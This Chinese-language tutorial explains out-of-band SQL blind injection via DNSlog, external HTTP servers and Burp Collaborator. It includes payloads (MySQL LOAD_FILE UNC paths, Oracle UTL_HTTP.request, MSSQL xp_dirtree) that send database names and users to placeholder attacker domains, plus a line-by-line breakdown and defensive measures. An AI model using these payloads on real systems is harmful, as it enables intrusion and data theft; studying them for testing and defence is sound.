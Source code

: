 # 盲注
在进行 **SQL 盲注** 时，使用外部服务器或 DNSlog 是一种非常有效的方式，可以帮助你在无法直接获得返回响应或查询结果时，验证注入是否成功，并获取数据库中的信息。

### 外部服务器与 DNSlog 的作用：
通过利用 **外部服务器** 或 **DNSlog 服务**，你可以让数据库向外部发出 HTTP 或 DNS 请求，并通过这些请求获取数据库中的数据。这种方法通常用于 **盲注** 场景，特别是当无法通过页面响应获取有用的信息时。

### 基本思路：
1. 构造带有外部服务器地址或 DNSlog 域名的 SQL 查询。
2. 如果注入成功，数据库会向你的外部服务器发出请求，这时你可以通过服务器的日志或 DNSlog 平台捕获请求，进而推测数据。

### 1. **利用 DNSlog 服务**：
DNSlog 是一种捕获外部 DNS 请求的服务。你可以使用一些在线 DNSlog 工具（例如 **DNSlog.cn** 或者 **Burp Collaborator**）来生成一个临时域名，查询这个域名时，服务器会记录所有访问到该域名的 DNS 请求。

#### 步骤：
1. **获取 DNSlog 服务域名**：
   - 注册并登录 DNSlog 服务（如 **DNSlog.cn**），获取一个唯一的域名。
   
2. **构造 SQL 注入语句**：
   - 将这个域名插入到 SQL 查询中，构造恶意请求。例如：
   ```sql
   SELECT LOAD_FILE(CONCAT('\\\\', (SELECT database()), '.dnslog-server.com'));
   ```
   - 或者使用 `INTO OUTFILE`、`XP_FILEEXIST`、`LOAD_FILE()`、`UTL_HTTP.request()` 等函数发送 DNS 请求：
   ```sql
   SELECT UTL_HTTP.request('http://your-dnslog-server.com/'||(SELECT user FROM dual));
   ```

3. **捕获请求**：
   - 当数据库解析并执行注入的 SQL 查询时，它会尝试访问你的 DNSlog 服务器，你可以在 DNSlog 控制台上捕获到该请求。
   - 根据请求的内容，你可以推测出数据库中查询的数据。

#### 示例：
假设你想获取数据库的名称，构造如下 SQL 语句：
```sql
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT database()),'.dnslog-server.com'));
```
执行后，如果注入成功，你可以在 DNSlog 服务器的日志中看到类似 `database_name.dnslog-server.com` 的 DNS 请求。

### 2. **利用外部 HTTP 服务器**：
通过让数据库发起 HTTP 请求到你的外部服务器，你可以通过服务器日志捕获请求，并获取一些关键信息。这种方法和 DNSlog 相似，但利用了 HTTP 请求。

#### 步骤：
1. **设置外部服务器**：
   - 你可以使用任何可以捕获请求的服务器（如 VPS、AWS 实例），并监听传入的 HTTP 请求。
   - 在服务器上设置一个 HTTP 服务器（如 Apache、Nginx、Python 的 `http.server` 等），并记录所有的访问日志。

2. **构造 SQL 注入语句**：
   - 利用 `UTL_HTTP`（在 Oracle 中）、`LOAD_FILE`、`INTO OUTFILE`、`xp_dirtree`（在 MSSQL 中）等函数构造外部请求：
   ```sql
   SELECT UTL_HTTP.request('http://your-external-server.com/'||(SELECT user FROM dual));
   ```
   - 或者使用 MSSQL 中的 `xp_dirtree` 命令：
```
   EXEC xp_dirtree '\\your-external-server.com\'+(SELECT user);
```
3. **捕获 HTTP 请求**：
   - 当数据库服务器执行了注入查询后，它会向你的服务器发送 HTTP 请求。
   - 通过检查服务器的日志，捕获传入的请求，你可以看到注入过程中获取的信息。

### 3. **使用 Burp Collaborator**：
**Burp Suite** 的 **Collaborator** 功能是一种非常方便的外部服务，它可以生成一个唯一的 DNS 或 HTTP 地址来帮助你检测盲注、命令执行等漏洞。

#### 步骤：
1. **启动 Burp Collaborator**：
   - 打开 Burp Suite，导航到 `Burp Collaborator` 页面，生成一个唯一的 Collaborator 域名。

2. **构造 SQL 注入语句**：
   - 将生成的 Burp Collaborator 域名嵌入到 SQL 注入查询中：
   ```sql
   SELECT UTL_HTTP.request('http://burp-collaborator-server.com/'||(SELECT user FROM dual));
   ```

3. **查看 Collaborator 结果**：
   - 在 Burp Collaborator 中捕获并查看请求，你可以看到数据库发出的请求，进而推测出查询的结果。

### 防御措施：
1. **输入验证和过滤**：对所有输入进行严格的验证和过滤，防止恶意 SQL 注入。
2. **使用参数化查询**：采用参数化查询来避免将用户输入直接插入 SQL 查询语句中。
3. **限制网络访问**：限制数据库服务器访问外部网络的能力，防止它能够向外部服务器发出 HTTP 或 DNS 请求。
4. **监控异常网络请求**：在安全日志中监控异常的网络请求，尤其是向不受信任的外部服务器的请求。

通过使用外部服务器和 DNSlog，你可以绕过传统的盲注限制，逐步从目标数据库中提取信息。然而，防御这些攻击的方法也非常重要，确保你的系统能够有效抵御此类攻击。

# dnslog盲注语句解析
这条 SQL 语句使用了 MySQL 的 **`LOAD_FILE()`** 函数，结合 **DNSlog** 技术，目的是通过服务器向外部发送 DNS 请求，从而将数据库的信息泄露到攻击者的服务器上。让我们逐步解析这条语句：
### 语句解析：

```sql
SELECT LOAD_FILE(CONCAT('\\\\', (SELECT database()), '.dnslog-server.com'));
```

1. **`LOAD_FILE()`**：
   - 这是 MySQL 中的一个函数，通常用于读取服务器文件系统中的文件内容。`LOAD_FILE()` 函数接收一个文件路径作为参数，并返回该文件的内容。
   - 在这个上下文中，`LOAD_FILE()` 被滥用来访问外部的资源。因为它不局限于读取文件，可以利用它来触发一个 DNS 请求。

2. **`CONCAT()`**：
   - `CONCAT()` 是一个字符串拼接函数。它将传入的多个参数拼接为一个字符串。
   - 这里拼接的部分包括：
     - `'\\\\'`：这代表了一个 UNC 路径，双反斜杠 `\\\\` 在 MySQL 中表示服务器尝试访问网络上的一个共享文件夹或主机。使用这种形式可以通过文件系统访问网络资源。
     - `(SELECT database())`：这是一个子查询，用来获取当前数据库的名称。
     - `'.dnslog-server.com'`：这是一个外部 DNS 服务器地址（由攻击者控制的 DNSlog 服务器）。攻击者可以通过这个域名捕获数据库的名称。

3. **`(SELECT database())`**：
   - 这是一个子查询，用于获取当前 MySQL 实例中正在使用的数据库名称。
   - 例如，如果当前数据库名称为 `mydatabase`，那么 `(SELECT database())` 会返回 `'mydatabase'`。

4. **拼接结果**：
   - `CONCAT()` 将上述部分拼接在一起后，生成一个网络共享路径的字符串：
     - 例如，如果数据库名称是 `mydatabase`，那么结果会是：  
       `\\\\mydatabase.dnslog-server.com`

5. **作用**：
   - `LOAD_FILE()` 函数尝试读取这个伪造的网络路径，由于路径是一个外部服务器地址，MySQL 服务器会发出一个 DNS 请求，向 `dnslog-server.com` 解析这个域名。
   - 攻击者通过 **DNSlog** 服务可以捕获到这个请求，从而获取数据库的名称。例如，攻击者可能会在 **DNSlog** 服务上看到类似这样的请求：
     ```
     mydatabase.dnslog-server.com
     ```

### 目的：
这段代码的目的是利用 **DNSlog** 技术通过 **SQL 注入** 提取数据库的名称。它通过伪造的文件路径触发数据库服务器发出 DNS 请求，并将数据泄露到外部 DNS 服务器。

### 适用场景：
这种技术通常用于 **SQL 盲注** 场景下，尤其是在没有页面反馈时，通过外部服务器验证注入是否成功，并获取数据库中的关键信息。

### 防御措施：
1. **禁用危险函数**：在数据库服务器中禁用类似 `LOAD_FILE()`、`INTO OUTFILE` 等能够访问外部文件系统或网络的函数。
2. **输入验证与过滤**：确保所有输入都经过严格的验证和过滤，防止 SQL 注入。
3. **限制数据库网络访问**：数据库服务器应限制向外部网络的访问，避免通过 DNS 或 HTTP 泄露数据。